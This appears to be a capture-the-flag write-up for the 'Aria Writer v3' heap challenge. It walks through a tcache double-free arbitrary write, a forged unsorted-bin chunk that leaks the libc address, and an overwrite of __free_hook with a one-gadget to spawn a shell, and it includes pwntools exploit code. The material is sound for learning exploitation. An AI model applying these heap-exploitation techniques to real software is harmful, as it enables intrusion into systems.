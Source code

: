 Aria Writer v3
==============
**Category:** Binary Exploitation

**Points:** 468 (dynamic)

**Description:**

After all that writing, Rob's gone blind. He still needs to finish this song though :(

Summary
-------

Rob can write and discard drafts, thus allowing for the allocation of chunks smaller than 420 bytes with values of our choosing, as well as the freeing of the current chunk. Unlike Aria Writer v1, there is no longer a limitation on the number of times we discard our letter; however, there is a limitation on the number of letters we can write.

There happens to be a global array `curr`, with

* `curr[0]` being the pointer for `malloc()` and `free()`
	
* `curr[1]` and beyond being the name. For convenience, I will refer to this as `name` (0x602048).

Vulnerability
-------------

As with Aria Writer v1, the tcache double free vulnerability can be exploited to write into an arbitrary location. To reduce redundancy, I implemented this under a function called `tcache_write`.

```python
def tcache_write(block_size, target, new_value):
    '''
    Exploits tcache double free to write into arbitary location

    Args:
        block_size - size of memory block to be allocated
        block_size - size of memory block to be allocated
        target - target address to be overwritten. Must be aligned to 0x10
        new_value - the value to be written to target address
    '''
    malloc(block_size, '')
    free()
    free()
    malloc(block_size, p64(target))
    malloc(block_size, '')
    malloc(block_size, new_value)
	
```

`block_size` does not matter as long as it uses a different tcache bin for every call. Using different bins may not be neccessary, but it is a good safety measure, since the target location might have some random value that will be copied into the tcache bin.

Exploit
-------

The idea is to overwrite `__free_hook` with one gadget, which requires leaking the location of libc.

Since Aria Writer v3 does not limit the number of times option 2 is chosen, leaking `main_arena` might be doable through the fd and bk pointers of small bin. However, I forged a large chunk instead and placed it in the unsorted bin because my solution was modified from that of Aria Writer v1.

For a chunk to be placed in the unsorted bin, it must

* not be on the top of the heap, or else it will be merged with the top chunk rather than stored in a bin. The heap manager will check whether the next chunk is in use to decide whether to merge the large chunk with the next chunk, and each chunk stores information on whether the previous chunk is free in the P flag. Thus, we will forge two small chunks after it.
* not fit into any tcache bins. There are 40 tcache bins, starting with 0x10 and incrementing by 0x10. Thus, the forged chunk should have a size greater than 0x410. I went with 0x420.

There is ample space in the data segment to hold the forged chunk. The forged chunk is in the location of `name` because `name` is printed at every turn, giving us a means of viewing the leak.

```python
# 1. prepare the chunk header for the forged chunk with size of 0x420
#    0x421 will be read into address 0x602048 (name)
conn.send(p64(0x421) + '\n')
name = 0x602040   # use 0x602040 from now on since malloc expect the buffer to be aligned to 0x10

# 2. forge small chunks at 'name + 0x420' to satisify unsorted bin conditions
tcache_write(0x60, name + 0x420, p64(0)+p64(0x21)+'c'*0x10+p64(0x20)+p64(0x21))

# 3. instantiate chunk 0x602050 with 0x420 bytes
tcache_write(0x70, name + 0x10, '')

```

With these conditions met, we free, consequently placing the forged chunk into the unsorted bin.

```python
free()

```

Since the forged chunk is the only chunk in the unsorted bin, both the forward and back pointers should point to somewhere in `main_arena`.
Unfortunately, we can't obtain our leak just yet, as the string terminates early due to a null byte. It prints the ascii representation of `0x21 0x04`.

In Aria Writer v1, there was a secret option 3 that printed 200 characters of `name`. Unfortunately, we don't have that luxury here and thus must find a different way to circumvent this.

I made a request for an arbitrary amount of memory. Size does not matter as long as it fits in a tcache bin. Its contents must not exceed 7 bytes, as explained later.

```python
malloc(0x10, '')
```

After the allocation, the memory layout will be:

	0x602040 -> 0x602050        0x0021              [chunk_header for 0x10 alloc]
	
	0x602050 -> xxxxxxxx        main_arena+0x50     [fd and bk (unlinked from main_arena)]
	
	0x602060 -> 0x602040        0x0401		[chunk_header for the remainder]
	
	0x602070 -> main_arena+0x60 main_arena+0x60     [fd and bk (linked into main_arena)]
	
Note that ```fd``` is corrupted by the '\n'. Thus, the string we pass in must not exceed 7 bytes, or else ```bk``` will also be corrupted.


From here, I overwrote everything leading up to the second pointer with filler.

```python
tcache_write(0x30, name, 'a' * 0x17)
```

As the null terminator is now gone, `main_arena` should be printed properly on the next turn.

We calculate the address of libc from offsets found under the debugger and overwrite `__free_hook` with our one gadget.

```python
tcache_write(0x90, free_hook, p64(libc_address + one_gadget))
```

Another call to free will trigger `__free_hook`, and our one gadget will be called to get into the shell.
